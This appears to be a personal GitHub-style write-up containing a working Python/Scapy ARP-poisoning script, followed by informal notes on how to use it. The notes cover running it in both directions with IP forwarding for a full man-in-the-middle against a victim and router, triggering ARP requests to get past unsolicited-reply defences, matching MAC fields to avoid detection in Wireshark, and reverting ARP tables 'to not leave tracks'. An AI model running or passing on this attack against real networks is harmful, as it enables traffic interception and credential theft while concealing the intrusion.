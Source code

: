 ok, kinda long

---------

script code *arp_poison_loop_revert_6and7_version3.py*
```python
from scapy.all import conf,get_if_addr,get_if_hwaddr,ARP,Ether,sendp, sniff
import time
from multiprocessing import Process ,Queue
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--target" , help= "Victim IP", required=True)
parser.add_argument("--spoof" , help="IP to Spoof" , required=True)
args = parser.parse_args()
#dont forget to enable for the love of god ip forwarding

iface = conf.iface
MyMAC = get_if_hwaddr(iface)
MyIP = get_if_addr(iface)

fake_mac = MyMAC

ip_victim = args.target
fake_ip = args.spoof
mac_victim = ""
mac_suplatation = ""
aux = ""   

def packet_handler(pkt):
    global mac_victim
    if ARP in pkt:
        if pkt[ARP].op == 2:
            if pkt[ARP].psrc == ip_victim and pkt[ARP].pdst == fake_ip:
                mac_victim = pkt[ARP].hwsrc
                return True
    return False

def sniffer(q):
    global fake_ip
    global ip_victim
    global aux
    global mac_suplatation
    global p1
    global p2
    sniff(filter = "arp", stop_filter  = packet_handler)
    if aux == ip_victim:
        frame = Ether(src = mac_victim, dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 2, psrc = ip_victim , pdst = "0.0.0.0" , hwsrc = mac_victim, hwdst = "ff:ff:ff:ff:ff:ff")
        sendp(frame,iface=iface, count = 15,inter = 1, verbose = 1) #to revert the metasploit or the suplantation ip we doing atm
        aux = fake_ip
        fake_ip = ip_victim
        ip_victim = aux
        frame = Ether(src = mac_victim, dst = mac_suplatation)/ARP(op = 2, psrc = fake_ip , pdst = ip_victim , hwsrc = mac_victim, hwdst = mac_suplatation)
        sendp(frame,iface=iface, count = 10 ,inter = 0.05, verbose = 1) #to revert the uibuntu or the victims arp
        print("DONE")
        p1.terminate()
        p2.terminate()
        
    else:  
        poison(fake_mac,MyMAC,fake_ip,ip_victim,q)


def poison (mac_fake,mac_real,ip_host,ip_vict,q):
    q.put(mac_victim)
    while True:
        frame = Ether(src = mac_fake, dst = mac_victim)/ARP(op = 2, psrc = ip_host , pdst = ip_vict , hwsrc = mac_fake, hwdst = mac_victim)
        sendp(frame,iface=iface, count = 1 ,inter = 1, verbose = 2)  

  
def potion( ):
    global aux 
    global fake_ip
    global ip_victim
    aux = fake_ip
    fake_ip = ip_victim
    ip_victim = aux
    
    q1 = Queue()
    p1 = Process(target=sniffer, args=(q1,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()


def trigger():
    global aux
    global fake_ip
    global ip_victim
    frame = Ether(src = MyMAC)/ARP(op = 1, psrc = fake_ip , pdst = ip_victim , hwsrc = MyMAC)
    sendp(frame,iface=iface, count = 1, verbose = 0)
    #p2.terminate()
    #p2.join()


try:
    q = Queue()
    p1 = Process(target=sniffer, args=(q,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()

    while True:
        time.sleep(0.2)
    
except KeyboardInterrupt:
    print("REVERTING ATTACK...WAIT...")  
    mac_suplatation = q.get()
    p1.terminate()
    p1.join()
    p2.terminate()
    p2.join()
    potion()
```

------------------

so some key points here

multithread processess must be termiante, closed and joined to the father thread they belong. on my case the main thread was the 
initial program. now dont forget to use while true before the keyboard interrupt becaseu if not the threat will be incorreclty 
closed and will output error, you must to properly close this

i used threads becase i needed to sniff the network at the same time i triggered the first request arp to the victim
and here is another revelation, tools liek arpspoof from dsniff wont work if the ip we trying to impersonate is not, i repeat, is not
previously saved on the arp table of the victim. is a , as this day, coutermeasuere to not accept replies from ips that where not
asked, and is common sense. 
and i know im doign more work as i needed to do , btu i wnated to paly a little and discover that if we send a planned request arp
like seting up the base, a trigger, after that any reply built on that request will be accepted
i know the router will always be saved so no sense, but what if we we would wnat to do this with another host o nthe network

key thing here is that we , when revertign the attack, we ask for the repli arp , after an arp request, and save the mac address, after that
we have the mac address of the victim and the host or dev we impersonating. we send multipel replies to those to not leave tracks.

i know my code could have some errors, but proud to be with this script. i must say that if you want to use this code, pelase do it on a 
controled environment since it tends sometimes to fail , so you must to be careful

also another thign i learned was that some older OSes wont cahnge the arp table on replies if they go too fast, hence the time (variable inter) for the replies each 1 sec and different for mthe last sendp which is 0.5 secs

ether src msut be equal to ARP hwsrc, if not tools like wireshark will show layer 2  mac address and ARP protocol differents mac addresses. The lie must be complete till the end if you know what i mean 

almost forgot, enable ip forwarding so you became the middle man between your  victim and router, and you have to make a full duplex attack so run the program 2 times one for the victim and the other to the router.

the ip forward helps so the attacker becames a messenger and no interruption whatsoever and having internet as well of couser, becase if the request from the victim to a website dont get pass the attacker, then it will not reach the router and apparently no itnernet connection
